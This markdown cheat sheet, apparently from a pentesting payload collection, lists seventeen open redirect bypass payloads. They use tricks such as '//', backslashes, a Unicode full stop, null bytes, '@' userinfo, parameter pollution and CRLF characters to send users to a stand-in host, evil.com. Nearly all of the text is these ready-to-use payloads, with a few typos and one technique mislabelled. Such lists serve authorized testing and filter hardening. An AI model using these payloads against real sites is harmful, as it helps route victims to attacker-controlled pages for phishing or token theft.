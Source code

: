 ## Open Redirect

1. Try change the domain
```
/?redir=evil.com
```

2. Using a whitelisted domain or keyword
```
/?redir=target.com.evil.com
```

3. Using `//` to bypass `http` blacklisted keyword
```
/?redir=//evil.com
```

4. Using `https:` to bypass `//` blacklisted keyword
```
/?redir=https:evil.com
```

5. Using `\\` to bypass `//` blacklisted keyword
```
/?redir=\\evil.com
```

6. Using `\/\/` to bypass `//` blacklisted keyword
```
/?redir=\/\/evil.com/
/?redir=/\/evil.com/
```

7. Using `%E3%80%82` to bypass `.` blacklisted character
```
/?redir=evil。com
/?redir=evil%E3%80%82com
```

8. Using null byte `%00` to bypass blacklist filter
```
/?redir=//evil%00.com
```

9. Using parameter pollution
```
/?next=target.com&next=evil.com
```

10. Using `@` or `%40` character, browser will redirect to anything after the `@`
```
/?redir=target.com@evil.com
/?redir=target.com%40evil.com
```

11. Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

12.  Using `?` characted, browser will translate it to `/?`
```
/?redir=target.com?evil.com
```

13. Bypass the filter if it only checks for domain name using `%23`
```
/?redir=target.com%23evil.com
```

14.  Host/Split Unicode Normalization
```
https://evil.c℀.example.com
```

15. Using parsing
```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```

16. Using `°` symbol to bypass
```
/?redir=target.com/°evil.com
```

17. Bypass the filter if it only allows yoou to control the path using a nullbyte `%0d` or `%0a`
```
/?redir=/%0d/evil.com
```